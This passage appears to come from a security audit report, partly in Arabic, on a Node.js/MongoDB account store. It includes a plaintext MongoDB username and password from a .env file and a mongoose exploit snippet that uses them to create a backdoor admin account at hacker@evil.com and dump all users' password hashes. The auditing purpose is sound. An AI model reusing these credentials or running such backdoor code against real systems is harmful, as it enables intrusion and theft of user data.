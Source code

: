 **Impact:**
- ✅ Access to all cached sessions
- ✅ Steal access tokens
- ✅ Read sensitive user data
- ✅ DoS attack by flushing cache

**CVSS Score:** 8.0 (High)

---

### 4. **MongoDB Credentials in Plain Text** 🟠
**File:** `.env`  
**Line:** 5  
**Severity:** HIGH

**الثغرة:**
```env
MONGO_URI=mongodb://MonlyKing580123:Mo1nly5890@localhost:27017/accountsstore
```

**كيف يستغلها الهاكر:**
```javascript
// If .env file is exposed (git, backup, etc.)
const mongoose = require('mongoose');

await mongoose.connect('mongodb://MonlyKing580123:Mo1nly5890@localhost:27017/accountsstore');

// Full database access:
const User = mongoose.model('User', schema);

// Create admin account:
await User.create({
  email: 'hacker@evil.com',
  verified: true,
  role: 'admin',
  passwordHash: await bcrypt.hash('hacked', 12)
});

// Steal all user data:
const allUsers = await User.find().select('+passwordHash');
console.log('Stolen:', allUsers.length, 'users');
```

**Impact:**
- ✅ Full database access
- ✅ Data theft
- ✅ Data manipulation
- ✅ Create backdoor admin accounts

**CVSS Score:** 9.0 (High)

---

### 5. **Email Credentials Exposed** 🟠
**File:** `.env`  
**Lines:** 18-19  
**Severity:** HIGH

